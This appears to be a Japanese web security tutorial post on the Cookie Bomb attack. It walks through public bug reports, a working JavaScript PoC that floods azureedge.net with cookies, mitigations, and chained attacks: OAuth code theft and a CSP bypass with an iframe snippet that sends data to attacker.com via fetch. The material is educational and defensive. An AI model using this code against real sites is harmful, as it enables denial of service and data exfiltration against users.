




# 面白くて実用的なCookie Bomb

前回の投稿では、Cookieを書き込むことで他のSame-siteドメインに影響を与えることができるCookie Tossingについて学びました。今回の投稿では、Cookieを利用した別の攻撃手法であるCookie Bombを紹介します。これはCookieによって引き起こされるクライアントサイドのDoS攻撃です。

DoSというと、ウェブサイトに大量のパケットを送信し、サーバーを応答不能にしたりリソースを枯渇させたりすることを思い浮かべるかもしれません。また、DDoS（分散型サービス妨害）を思い浮かべるかもしれません。これは、1台のホストではなく、多数のホストが同時に特定のサーバーにパケットを送信し、それをクラッシュさせるものです。

DoS攻撃とDDoS攻撃は実際には異なるレイヤーで動作します。これらのレイヤーは、皆さんが学んだことのあるOSIモデルに対応しています。私たちが通常考える攻撃は、L3ネットワーク層とL4トランスポート層の攻撃に近いものです。しかし、Cookie BombはL7アプリケーション層に存在するDoS攻撃です。

例えば、あるウェブサイトにデータを照会するためのAPIがあり、デフォルトの制限が100に設定されているとします。しかし、それを10000に変更すると、サーバーが応答するのに1分以上かかることに気づきました。そこで、2秒ごとにリクエストを送信し始めました。これらのリクエストを送信し続けると、ウェブサイトが遅くなり、最終的にはクラッシュし、500 Internal Server Errorしか返さなくなることがわかります。これは、アプリケーション層でのDoS攻撃の例です。

ユーザーがウェブサイトにアクセスできないようにする方法は、DoS攻撃と見なすことができます。私たちが発見した方法はL7アプリケーション層に基づいているため、L7 DoS攻撃となります。

さまざまなL7 DoS攻撃手法の中で、特に興味深いと思うのがCookie Bombです。

## Cookie Bombの紹介

Cookie Bomb攻撃を実行するための前提条件は、Cookieを書き込めることです。これを達成するには基本的に2つの方法があります。最初の方法は、ウェブサイト自体のロジックを利用することです。

例えば、`https://example.com/log?uid=abc`というページがあるとします。このページにアクセスすると、`uid=abc`がCookieに書き込まれます。したがって、URLを`?uid=xxxxxxxxxx`に変更すると、`xxxxxxxxxx`がCookieに書き込まれます。これが1つの方法です。

もう1つの方法は、前回の投稿で述べたもので、サブドメインを制御し、JavaScriptコードを実行できることです。これは、サブドメイン乗っ取りやその他の方法で達成できます。

任意のCookieを書き込めるようになったら、それで何ができるでしょうか？たくさんのゴミを書き込み始めることができます。

例えば、`a1=o....*4000`のように、Cookieにたくさんの無意味な内容を書き込みます。ここで重要なのは、1つのCookieのサイズは約4KBであり、攻撃を達成するには少なくとも2つのCookie、つまり8KBのデータを書き込む必要があるということです。

これらのCookieを書き込んだ後、ホームページ`https://example.com`に戻ると、Cookieの性質上、これらのゴミCookieはすべてサーバーに送信されますよね？さあ、奇跡の瞬間です。

通常のページを表示する代わりに、サーバーはエラーを返します：`431 Request Header Fields Too Large`。



さまざまなHTTPステータスコードの中に、リクエストが大きすぎることに関連するものが2つあります。

1. 413 Payload Too Large
2. 431 Request Header Fields Too Large

例えば、100万文字のフォームに入力してサーバーに送信すると、`413 Payload Too Large`というレスポンスを受け取る可能性が高くなります。エラーメッセージが示すように、ペイロードが大きすぎてサーバーが処理できません。

ヘッダーも同様です。Cookieが多すぎると、リクエストヘッダーの`Cookie`フィールドが大きくなり、サーバーが処理できないほど大きくなり、`431 Request Header Fields Too Large`というレスポンスが返されます（ただし、テストに基づくと、一部のサーバーは実装によって異なるコードで応答する可能性があり、例えばMicrosoftは400 bad requestで応答します）。

したがって、ユーザーのCookieを過負荷にできれば、このエラーページを表示させ、サービスに正常にアクセスできないようにすることができます。これがCookie Bombであり、多数のCookieによって引き起こされるDoS攻撃です。その根本的な原理は、「ブラウザがウェブページにアクセスする際、対応するCookieを自動的に一緒に送信する」ということです。

「Cookie Bomb」という用語は、2014年1月18日にEgor Homakov氏が公開したブログ投稿「[Cookie Bomb or let's break the Internet.](http://homakov.blogspot.com/2014/01/cookie-bomb-or-lets-break-internet.html)」に由来すると思われます。しかし、同様の攻撃手法は2009年には既に登場していました：[How to use Google Analytics to DoS a client from some website](http://sirdarckcat.blogspot.com/2009/04/how-to-use-google-analytics-to-dos.html)。

## 攻撃プロセス

上記で述べたように、任意のCookieを設定できるURL `https://example.com/log?uid=abc`を発見したとします。次の手順は以下の通りです。

1. 8KBを超えるCookieを書き込む方法を見つける（多くのサーバーの制限が約8KBであるため）。
2. このURLを攻撃対象に渡し、クリックさせる方法を見つける。
3. ターゲットがURLをクリックし、ブラウザに非常に大きなCookieを設定する。
4. ターゲットがウェブサイト`https://example.com`にアクセスすると、コンテンツが表示されず、空白ページまたはエラーメッセージのみが表示される。攻撃は成功。

この状況では、ユーザーがブラウザを変更するか、Cookieの有効期限が切れるか、手動でCookieをクリアしない限り、常にこの状態になります。

まとめると、この攻撃は特定のユーザーのみを標的にでき、2つの前提条件が必要です。

1. 任意のCookieを設定できる場所を見つける。
2. ターゲットがステップ1で見つかったURLをクリックする必要がある。

次に、いくつかの実際の例を見てみましょう。最初の例は、2015年にfiledescriptor氏がTwitterに報告した脆弱性です：[DOM based cookie bomb](https://hackerone.com/reports/57356)。

彼はTwitterのウェブサイトで次のコードを見つけました。

```js
function d(a) {
...
        var b = document.referrer || "none",
            d = "ev_redir_" + encodeURIComponent(a) + "=" + b + "; path=/";
        document.cookie = d;
...
}
...
window.location.hash != "" && d(window.location.hash.substr(1).toLowerCase())
```

URLハッシュと`document.referrer`のデータがCookieに格納され、`document.referrer`はまったくエンコードされていないことがわかります。したがって、この脆弱性を使用して任意のCookieを書き込むことが可能です。`document.referrer`を悪用することで、非常に長いCookieを書き込み、サービス拒否（DoS）攻撃を引き起こすことができます。

ユーザーがCookie Bombのリンクをクリックすると、Twitterにアクセスしたときにエラーページが表示されます。

2番目の例は、s_p_q_r氏が2015年にShopifyに報告した脆弱性です：[[livechat.shopify.com] Cookie bomb at customer chats](https://hackerone.com/reports/105363)。この場合、フロントエンドコードはURLの情報をCookieの内容として直接使用します。書き込む前に、内容はエンコードされます。例えば、`,`は`%2C`になり、長さが3倍になります。したがって、非常に長いURLを渡すことで、Cookie Bombを作成できます。

最後の例は、bihari_web氏が2020年にNordVPNに報告した脆弱性です：[Denial of Service with Cookie Bomb](https://hackerone.com/reports/777984)。

前の2つのケースと同様に、URLの情報（パスや特定のクエリ文字列など）が抽出され、長さ制限なしにCookieに書き込まれることが発見されました。したがって、非常に長いURLを使用してCookie Bombを作成できます。

攻撃対象領域について引き続き説明する前に、まずいくつかの防御策について言及しましょう。

## 防御策

最初のポイントは、ユーザー入力を信頼しないことです。例えば、前述の例：`https://example.com/log?uid=abc`では、`abc`を直接Cookieに書き込むべきではありません。代わりに、形式や長さなどの基本的なチェックを実行して、この種の攻撃を防ぐ必要があります。

次に、サブドメインからルートドメインにCookieを設定することについて言及したとき、多くの人が1つのことを考えるかもしれません。「共有サブドメインはどうなるのか？」

例えば、GitHub Pages機能では、各ユーザーのドメインは`username.github.io`です。では、すべてのGitHub Pagesに影響を与えるCookie Bombを作成できないでしょうか？自分のサブドメインに悪意のあるHTMLページを作成し、Cookieを設定するJavaScriptコードを含めるだけです。そして、このページを誰かに送信し、クリックすると、サーバーによって拒否されるため、`*.github.io`リソースにアクセスできなくなります。

この仮説は妥当に思えますが、満たさなければならない前提条件があります。「ユーザーは`*.github.io`で`github.io`のCookieを設定できる」ということです。この前提条件が満たされない場合、Cookie Bombは実行できません。

実際、「上位ドメインがCookie設定の影響を受けないようにする」というような要件はたくさんあります。例えば、`a.com.tw`が`.com.tw`や`.tw`のCookieを設定できる場合、多くの無関係なウェブサイトがCookieを共有することになるのではないでしょうか？これは明らかに不合理です。

あるいは、総統府のウェブサイト`https://www.president.gov.tw`を考えてみましょう。財務省のウェブサイト`https://www.mof.gov.tw`の影響を受けるべきではありません。したがって、`.gov.tw`もCookieを設定できないドメインであるべきです。

オリジンとサイトについて話すときに、実際にこの概念に言及したことをまだ覚えているかどうかわかりません。

ブラウザが特定のドメインにCookieを設定できるかどうかを判断する際、[パブリックサフィックスリスト](https://publicsuffix.org/list/)と呼ばれるリストを参照します。このリストに表示されるドメインは、サブドメインのCookieを直接設定できません。

例えば、以下のドメインはこのリストに含まれています。

1. com.tw
2. gov.tw
3. github.io

したがって、前述の例は有効ではありません。なぜなら、`userA.github.io`にいるとき、`github.io`のCookieを設定できないため、Cookie Bomb攻撃を実行できないからです。

## 攻撃対象領域の拡大

前述の攻撃が成功するための前提条件は2つあります。

1. 任意のCookieを設定できる場所を見つける。
2. ターゲットがステップ1で見つかったURLをクリックする必要がある。

攻撃を成功しやすくするために、これら2つの前提条件に関して次のように考えることができます。

1. この場所を簡単に見つけることは可能か？
2. ターゲットがリンクをクリックせずに侵害されることは可能か？

2番目のポイントは、キャッシュポイズニングと呼ばれる脆弱性を介して達成できます。

名前が示すように、この脆弱性はキャッシュ内のコンテンツを汚染することを含みます。例えば、多くのウェブサイトにはキャッシュがあり、異なるユーザーが同じキャッシュにアクセスする可能性があります。この場合、キャッシュサーバーに破損したレスポンスを保存させる方法を見つけることができます。こうすることで、他のすべてのユーザーも破損したファイルを受信し、同じエラーメッセージが表示されます。

このようにして、ターゲットはリンクをクリックしなくても侵害される可能性があり、攻撃は1人から全員に拡大されます。

これには[CPDoS（Cache Poisoned Denial of Service）](https://cpdos.org/)という特定の用語があります。キャッシュを利用するため、もはやCookie Bombとは関係ありません。Cookieを使用せずに自分のコンピュータから直接攻撃を開始することもできます。

次に、最初の点を見てみましょう。「この場所を簡単に見つけることは可能か？」。

## Cookieを簡単に設定できる場所を見つける

Cookie Bombを実行するためにCookieを簡単に設定できる場所はありますか？はい、それは前述の共有サブドメイン、例えば`*.github.io`のようなものです。

しかし、これらのドメインは既にパブリックサフィックスリストに含まれていませんか？Cookieを設定できません。

リストにないものを見つければいいだけです！

しかし、これは簡単なことではありません。なぜなら、知っているサービスのほとんどは既に登録されていることがわかるからです。例えば、GitHub、AmazonS3、Heroku、Netlifyなどは既にリストに載っています。

しかし、リストに載っていないものを見つけました。それはMicrosoftが提供するAzure CDN：azureedge.netです。

理由はわかりませんが、このドメインはパブリックサフィックスに属していないため、独自のCDNを作成すれば、Cookie Bombを実行できます。

## PoCの作成

デモに使用したコードは次のとおりです。[こちら](https://github.com/wrr/cookie-bomb/blob/master/bomb.html)から参照および変更しました。

```js
const domain = 'azureedge.net'
const cookieCount = 40
const cookieLength = 3000
const expireAfterMinute = 5
setCookieBomb()

function setCookie(key, value) {
  const expires = new Date(+new Date() + expireAfterMinute * 60 * 1000);
  document.cookie = key + '=' + value + '; path=/; domain=' + domain + '; Secure; SameSite=None; expires=' + expires.toUTCString()
}

function setCookieBomb() {
  const value = 'Boring' + '_'.repeat(cookieLength)
  for (let i=0; i<cookieCount; i++) {
    setCookie('key' + i, value);
  }
}
```

次に、ファイルをAzureにアップロードし、CDNを設定します。

クリックすると、`azureedge.net`にたくさんのジャンクCookieが設定されます。



更新後、ウェブサイトにアクセスできなくなっていることがわかります。



これはCookie Bombが成功したことを意味します。

したがって、`azureedge.net`に配置されたリソースはすべて影響を受けます。

実際には、Azure CDNにはカスタムドメインを使用する機能があるため、カスタムドメインを使用している場合は影響を受けません。ただし、一部のウェブサイトはカスタムドメインを使用せず、URLとして直接`azureedge.net`を使用しています。

## 緩和策

最善の緩和策は、デフォルトの`azureedge.net`の代わりにカスタムドメインを使用することです。こうすれば、Cookie Bombの問題は発生しません。しかし、カスタムドメインはさておき、問題を真に解決するには`azureedge.net`をパブリックサフィックスとして登録する必要があります。

これら2つの防御策以外に、思いつかなかったかもしれないもう1つの防御策があります。

フロントエンドエンジニアとして、私たちは通常、次のようにリソースをインクルードします。

```html
<script src="htps://test.azureedge.net/bundle.js"></script>
```

`crossorigin`属性を追加するだけです。

```html
<script src="htps://test.azureedge.net/bundle.js" crossorigin></script>
```

リクエストを行う際に`crossorigin`属性を使用することで、Cookie Bomb攻撃を回避できます。デフォルトでは、リクエストを送信する際にCookieが含まれます。ただし、`crossorigin`属性を使用してクロスオリジン方式でリクエストを行うと、デフォルトではCookieは含まれません。これにより、「ヘッダーが大きすぎる」問題の発生を防ぐことができます。

CDN側でも設定を調整することを忘れないでください。サーバーがクロスオリジンリソースリクエストを許可するために`Access-Control-Allow-Origin`ヘッダーを追加していることを確認してください。

以前は`crossorigin`属性をいつ使用するのか混乱していましたが、今ではユースケースの1つがわかりました。リクエストにCookieを含めたくない場合は、`crossorigin`属性を追加できます。

## もう一つの実際の事例

元々は特定のニッチに焦点を当てていたが、後にAutomatticに買収されたTumblrには、ユーザーが個人のページでCSSとJavaScriptをカスタマイズできる特別な機能があります。これらの個人ページのドメインはuserA.tumblr.comという形式です。tumblr.comはパブリックサフィックスに登録されていないため、Cookie Bomb攻撃の影響も受けます。

ChromeまたはEdgeで次のURLにアクセスし、更新するかTumblrのホームページに移動すると、アクセスできないことに気づくでしょう。



この脆弱性をTumblrに報告したところ、翌日次のような返信がありました。

> この動作は、キャッシュをクリアすることで修正でき、セキュリティ脆弱性というよりも迷惑行為であるため、プラットフォーム自体に具体的かつ悪用可能なリスクをもたらすものではありません。

一部の企業にとって、Cookie Bomb攻撃によって引き起こされる損害は最小限であると考えられています。さらに、最初の被害者は特定のURLにアクセスする必要があり、Cookieをクリアすると問題が解決します。したがって、セキュリティ脆弱性とは見なされません。

Microsoftの対応も同様です。追加の脆弱性なしにCookie Bomb攻撃のみが存在する場合、セキュリティ脆弱性の最低基準を満たしていません。

では、Cookie Bomb攻撃と組み合わせることができる他の脆弱性は何でしょうか？

## Cookie Bomb脆弱性の連鎖

サイバーセキュリティの分野では、一見小さな問題をより大きな問題に結び付けることは常に芸術でした。Cookie Bomb攻撃だけではあまり影響がないかもしれませんが、他の要素と組み合わせると、深刻な脆弱性につながる可能性があります。例えば、以前、Same-siteのウェブサイトがSame-site Cookieの制限を回避し、`content-type`ヘッダーの解析の問題を通じてCORSの制限を悪用し、結果としてCSRF脆弱性になるのを見てきました。

最初に紹介したい事例は、2019年のHITCON CMTでのfiledescriptor氏の講演「[The cookie monster in your browsers](https://www.youtube.com/watch?v=njQcVWPB1is&ab_channel=HITCON)」で登場しました。

彼はGoogle OAuthを使用してログインする`example.com`でXSS脆弱性を発見しました。彼はXSSを使用してOAuthコードを盗み、ユーザーのアカウントに直接アクセスし、より深刻なアカウント乗っ取り脆弱性に変えることができると考えました。

典型的なOAuthフローは次のとおりです。

1. ユーザーが「Googleでサインイン」ボタンをクリックします。
2. ウェブページが`https://google.com/oauth?client_id=example`にリダイレクトされます。
3. ユーザーがGoogleでログインし、承認を許可します。
4. ウェブページが`https://example.com/oauth/callback?code=123`にリダイレクトされます。
5. ウェブページがさらに`https://example.com/home`にリダイレクトされ、ログイン成功を示します。

ユーザーが既に承認を許可している場合、3番目のステップはスキップされ、リダイレクトが直接行われます。

現在の問題は、コードは1回しか使用できないことです。`https://example.com/oauth/callback?code=123`にアクセスすると、フロントエンドまたはバックエンドがコードを使用するため、盗まれたコードは役に立たなくなります。ここでCookie Bombが役立ちます。

`example.com`のXSS脆弱性により、ページを完全に制御できます。Cookieを書き込み、`/oauth`パスでCookie Bombを実行できます。次に、URLが`https://google.com/oauth?client_id=example`のiframeを追加できます。承認が完了すると、iframeは`https://example.com/oauth/callback?code=123`にリダイレクトされます。Cookie Bombのため、サーバーはこの時点でエラーを返します。iframeのURLを取得し、コードを取得できます。これにより、他の誰にも使用されていないことが保証されます。

2番目のケースはCSPバイパスに関連しています。一部のウェブサイトでは、バックエンドアプリケーションから直接CSPを追加するのではなく、nginxのようなリバースプロキシを使用して一律に追加する場合があります。

```
    server {
        listen 80;
        server_name _;

        index index.php;
        root /www;

        location / {
            try_files $uri $uri/ /index.php?$query_string;
            add_header Content-Security-Policy "script-src 'none'; object-src 'none'; frame-ancestors 'none';";
            location ~ \.php$ {
                try_files $uri =404;
                fastcgi_pass unix:/run/php-fpm.sock;
                fastcgi_index index.php;
                fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
                include fastcgi_params;
            }
        }
    }
```

一見すると問題ないように見えます。しかし、nginxが4xxまたは5xxエラーを返した場合、このヘッダーはレスポンスに追加されません。これはnginxのデフォルトの動作であり、[ドキュメント](https://nginx.org/en/docs/http/ngx_http_headers_module.html#add_header)にも記載されています。

> レスポンスコードが200、201（1.3.10）、204、206、301、302、303、304、307（1.1.16、1.0.13）、または308（1.13.0）の場合に限り、指定されたフィールドをレスポンスヘッダーに追加します。

したがって、Cookie Bombを使用して、CSPヘッダーのないエラーページを作成できます。一部の人々は疑問に思うかもしれませんが、これはエラーページなので、CSPがないことに何の意味があるのでしょうか？

元のページに非常に厳格なCSPがあり、すべてのディレクティブが`'self'`に設定され、`script-src`にのみ追加の`unsafe-inline`があるとします。そして、XSS脆弱性を見つけたとします。これにより、コードを実行できます。

しかし問題は、私たちのデータが送信できないことです！CSPのため、すべての外部リンクがブロックされています。この時点で、Cookie Bombを使用して最初に`/test`ページを攻撃し、次に`/test`ページをiframeに入れます。

iframe内に入ると、同一オリジンポリシーにより、CSPのない`/test`ページに直接アクセスできます。したがって、このページからリクエストを送信できます。次の例を参照してください。

```html
<iframe id=f src="/test" onload=run()></iframe>
<script>
  function run() {
    f.contentWindow.fetch('https://attacker.com?data=...')
  }
</script>
```

このようなメソッドは、DoSとiframeを組み合わせてCSP制限をバイパスします。

（ちなみに、CSPは現在「すべての外部リンクをブロックする」ことはできません。外部にリクエストを送信するだけなら、ページリダイレクトに`location=...`を使用するなど、より高速な方法があります。）

## 結論

この記事では、CookieをDoS攻撃の実行手段として使用し、ウェブページの読み込みを妨げる別の方法を見てきました。この脆弱性自体は大きな影響はありませんが、多くの企業はこれをセキュリティ脆弱性とは見なしていません。しかし、他の手法と組み合わせると、より影響力のある脆弱性になる可能性があります。

これで第4章「クロスサイト攻撃」は終わりです。最近の記事では、まずオリジンとサイトの違いを理解し、次にCORS設定と誤設定の結果について学びました。また、CSRFとSame-site Cookieについても調査し、最後にSame-siteの制御権を取得した後に実行できる攻撃について議論しました。

次の記事からは、第5章「その他の興味深いトピック」に入ります。

この記事は以下を改作したものです：[Cookieの特性を利用したDoS攻撃：Cookie爆弾](https://blog.huli.tw/2021/07/10/ja/cookie-bomb/)
